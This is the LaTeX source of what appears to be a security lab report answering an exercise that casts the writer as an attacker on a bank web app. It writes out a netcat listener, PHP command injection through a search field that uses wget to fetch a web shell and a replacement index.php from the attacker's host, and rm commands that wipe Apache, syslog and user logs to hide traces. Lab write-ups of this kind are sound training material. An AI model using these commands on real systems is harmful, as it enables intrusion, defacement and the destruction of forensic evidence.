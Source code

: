 \documentclass[12pt]{report}
\begin{document}
	\begin{figure}[H]
		\texttt{[image: images/2\_6.jpg]}
		\caption{leaked source files.}
	\end{figure}
	
	\paragraph*{7.}{\bf Suppose you are an anonymous attacker:
		\begin{itemize}
			\item Upload a web shell on the victim server and show that you can take control of the server.
			\item Deface the main bank page.
			\item Clear possible traces that could lead to you.
	\end{itemize} }
	
	To upload a shell,\\
	
	In attacker's machine: {\sf nc -v -n -l -p 1234}.
	In victim's machine, we run this command using the search box: {\sf '.system("wget -N 0.0.0.0:5000/static/shell.php").'}\\
	From the attacker's machine we are able to access the shell.
	
	\begin{figure}[H]
		\texttt{[image: images/2\_7\_1.jpg]}
		\caption{shell uploaded.}
	\end{figure}
	
	To Deface the main page,\\
	
	In the attacker's end, there was a index.php file made in {\sf /var/www/html/static/} folder. Attacker will simply run 'wget' to download that file on victim's machine, which will replace victim's index.php.\\
	Command to use in search field: {\sf '.system("wget -N 0.0.0.0:5000/static/index.php").'}
	
	\begin{figure}[H]
		\texttt{[image: images/2\_7\_2.jpg]}
		\caption{Webapp defaced.}
	\end{figure}
	
	To clear possible traces,\\
	
	Traces can be generally found in log files. Attacker can remove those logs by including 'rm' commands. Also the 'index.php' and 'shell.php' could be deleted.\\
	Command to delete files: \\
	{\sf '.system("rm /var/log/apache2/*").'}\\
	{\sf '.system("rm /var/log/syslog").'}\\
	{\sf '.system("rm /var/log/user.log").'}\\
	{\sf '.system("rm /var/www/html/shell.php").'}\\
	{\sf '.system("rm /var/www/html/index.php").'}\\
	
\end{document}
